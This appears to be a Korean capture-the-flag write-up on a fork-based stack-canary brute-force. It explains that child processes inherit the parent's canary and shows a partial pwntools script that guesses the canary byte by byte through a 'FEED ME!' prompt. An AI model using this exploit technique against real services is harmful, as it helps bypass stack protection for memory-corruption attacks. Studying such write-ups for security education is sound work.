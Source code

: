 ![./14.png](./14.png)

fork 과정

- fork 함수를 바탕으로 부모 프로세스의 메모리 사이즈, 값을 그대로 복제하여 자식 프로세스를 생성한다.
- 부모 프로세스가 수행하던 코드 영역까지 그대로 복사를 하며 호출 이후에 부모 영역, 자식 영역이 따로 생기는 것을 알 수 있으며 canary의 값 또한 그대로 복제가 되는 것을 확인할 수 있겠다.
- 그렇다면은 반복을 돌면서 자식 프로세스가 생겨나도 brute-force 기법을 바탕으로 1 바이트씩 해당 카나리 값을 구할 수 있겠다.

# 해결 방안

## 공격

## canary brute-force

```python
canary = '\x00'
buf = p8(0x90)*0x20

def get_canary():
    global canary
    for _ in range(3):
        log.info("byte_%d"%_)
        for i in range(0xff):
            p.recvuntil("FEED ME!\n")
            len_byte = len(buf) + len(canary) + 1
            p.send(chr(len_byte)+buf + canary + chr(i))
            res = p.recvuntil('Child exit.\n')
```